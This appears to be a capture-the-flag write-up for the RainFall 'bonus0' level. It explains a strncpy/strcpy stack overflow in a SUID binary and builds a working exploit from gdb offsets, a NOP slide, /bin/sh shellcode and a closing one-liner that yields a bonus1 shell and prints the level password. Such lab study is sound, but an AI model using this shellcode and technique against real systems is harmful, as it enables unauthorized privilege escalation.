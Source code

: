 # Level bonus 0

## Vulnerability

strcpy() heap overflow

## Context

We find a binary with owner ```bonus1``` and SUID.
```
bonus0@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 bonus1 users 5566 Mar  6  2016 bonus0
```
When run it seems to accept 2 seperate inputs on stdin, and print them with a space between.
```
bonus0@RainFall:~$ ./bonus0
 -
wait...
 -
what?
wait... what?
```

## Solution

Longer strings reveal the buffer overflow weakness.
```
bonus0@RainFall:~$ ./bonus0
 -
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 -
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB�� BBBBBBBBBBBBBBBBBBBB��
Segmentation fault (core dumped)
```
Investigating with gdb we find main calls function ```pp```. ```pp``` calls function ```p``` twice, reading from stdin.

```p``` reads 4096 bytes into a buffer then uses ```strncpy()``` to return the first 20 bytes.
```strncpy()``` does not null terminate the string if the source is longer than destination.

Then when ```pp``` uses ```strcpy``` to copy the first string, without null termination it continues past the first string into the second.
This leads to us overflowing the main buffer, overwriting the EIP return address, and segfaulting.

Let's try to write our malicious code (which opens a shell) in the first string.
Then use the second string to overflow and write the address of our malicious code.

Using [this compact system call opening a shell](http://shell-storm.org/shellcode/files/shellcode-827.php) we create our malicious code. ```\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80```

Then we need to find the EIP offset where to write the address of our malicious code. Using the following example with [this EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/), we find the EIP offset is 9.
```
bonus0@RainFall:~$ gdb -q bonus0
...
(gdb) run
Starting program: /home/user/bonus0/bonus0
 -
01234567890123456789
 -
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9...
Program received signal SIGSEGV, Segmentation fault.
0x41336141 in ?? ()
```
The buffer is 42 bytes (0x40 - 0x16), so we want to overwrite the return address at buffer[54].

To find the address of our malicious code
```
bonus0@RainFall:~$ gdb -q bonus0
...
(gdb) disas p
...
   0x080484d0 <+28>:	lea    -0x1008(%ebp),%eax ; buffer address
...
(gdb) break *p+28
Breakpoint 1 at 0x80484d0
(gdb) run
Starting program: /home/user/bonus0/bonus0
 -

Breakpoint 1, 0x080484d0 in p ()
(gdb) x $ebp-0x1008
0xbfffe640:	0x00000000
```
The buffer starts at ```0xbfffe640```. We will create a large NOP slide leading to our malicious code, so lets overwrite EIP wih an address somewhere on the NOP slide, let's say buffer + 100 ```0xbfffe6a4``` = "\xa4\xe6\xff\xbf".

So we want to craft our first input:
1. A large NOP slide buffer leading to our malicious code - ```'\x90' * 3000```
2. our malicious shell code - ```\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80```

And our second input:
1. A buffer until we reach EIP - ```'B' * 14```
2. Address on NOP slide leading to our malicious code - ```\xa4\xe6\xff\xbf```
3. buffer single byte - ```'B'```

Lets provide these two to the binary.
```
bonus0@RainFall:~$ (python -c "print('\x90' * 3000 + 
'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80')"; python -c "print('B' * 14 + '\xa4\xe6\xff\xbf' + 'B')"; cat) | ~/bonus0
 -
 -
��������������������BBBBBBBBBBBBBB����B BBBBBBBBBBBBBB����B
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
Here is a handy one liner:
```
(python -c "print('\x90' * 3000 + 
'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80')"; python -c "print('B' * 14 + '\xa4\xe6\xff\xbf' + 'B')"; cat) | ~/bonus0
```

